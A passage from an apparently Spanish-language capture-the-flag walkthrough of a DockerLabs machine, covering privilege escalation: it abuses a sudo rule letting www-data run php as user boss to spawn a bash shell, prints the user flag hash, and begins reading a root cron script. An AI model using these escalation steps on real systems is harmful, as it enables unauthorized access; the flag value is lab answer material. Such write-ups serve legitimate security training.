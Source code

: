 ```bash
```

Por lo que vemos cuando nos conectemos con el usuario `boss` puede ser que haya algo que ejecute este script y nos eche de la sesion, por lo que podemos intuir que puede haber algun `crontab`.

Si nos vamos a `/var/spool/cron` y listamos veremos lo siguiente:

```
dr-xrwx--T 1 boss crontab 4096 Jan 16 11:58 crontabs
```

Vemos que el usuario `boss` puede acceder a este directorio y dentro puede haber algo que nos interese.

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on dockerlabs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on dockerlabs:
    (boss) NOPASSWD: /bin/php
```

Vemos que podemos ejecutar el binario `php` como el usuario `boss` por lo que haremos lo siguiente:

```shell
CMD="/bin/bash"
sudo -u boss php -r "system('$CMD');"
```

Y con esto seremos el usuario `boss`, por lo que leeremos la flag del usuario.

> user.txt

```
93a85c1e99d62afe15c179d4fd005f40
```

## Escalate Privileges

Si nos vamos donde dijimos antes, veremos que nos deja meternos en el directorio, cosa que es poco usual:

```shell
cd /var/spool/cron/crontabs
```

Si listamos veremos lo siguiente:

```
-rwxr-xr-x 1 root crontab 1197 Jan 16 11:58 root.sh
```

Vemos que podemos leer el archivo `root`:

```
#!/bin/bash

# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.JicO9c/crontab installed on Thu Jan 16 11:58:58 2025)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').
# 
```